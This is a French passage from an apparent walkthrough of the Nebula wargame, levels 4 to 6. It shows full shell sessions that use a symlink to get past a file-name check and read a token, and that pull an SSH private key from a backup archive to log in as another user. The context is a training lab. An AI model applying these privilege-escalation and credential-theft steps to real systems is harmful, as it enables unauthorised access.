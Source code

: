 On peut bypasser ça via un lien symbolique :

```shellsession
level04@nebula:/home/flag04$ ln -s /home/flag04/token /tmp/yolo
level04@nebula:/home/flag04$ ./flag04 /tmp/yolo
06508b5e-8909-4f38-b630-fdb148a848a2
level04@nebula:/home/flag04$ su flag04
Password: 
sh-4.2$ getflag 
You have successfully executed getflag on a target account
sh-4.2$ id
uid=995(flag04) gid=995(flag04) groups=995(flag04)
```

## Level 5

```shellsession
level05@nebula:/home/flag05$ ls -al .backup/
total 2
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .
drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 ..
-rw-rw-r-- 1 flag05 flag05  1826 2011-11-20 20:13 backup-19072011.tgz
```

Cette fois pas de binaire mais un fichier de backup qui contient une clé privée SSH :

```shellsession
level05@nebula:/home/flag05$ cp .backup/backup-19072011.tgz /tmp/
level05@nebula:/home/flag05$ cd /tmp/
level05@nebula:/tmp$ tar zxvf backup-19072011.tgz 
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys
level05@nebula:/tmp$ chmod 600 .ssh/id_rsa
level05@nebula:/tmp$ ssh -i .ssh/id_rsa flag05@127.0.0.1
The authenticity of host '127.0.0.1 (127.0.0.1)' can't be established.
ECDSA key fingerprint is ea:8d:09:1d:f1:69:e6:1e:55:c7:ec:e9:76:a1:37:f0.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '127.0.0.1' (ECDSA) to the list of known hosts.
  
flag05@nebula:~$ id
uid=994(flag05) gid=994(flag05) groups=994(flag05)
flag05@nebula:~$ getflag 
You have successfully executed getflag on a target account
```

## Level 6

Pas de binaire, pas de process pour cet utilisateur, pas de permissions sudo... On peut trouver un indice que [Level 06 :: Andrew Griffiths' Exploit Education](https://exploit.education/nebula/level-06/) :

> The **flag06** account credentials came from a legacy unix system.
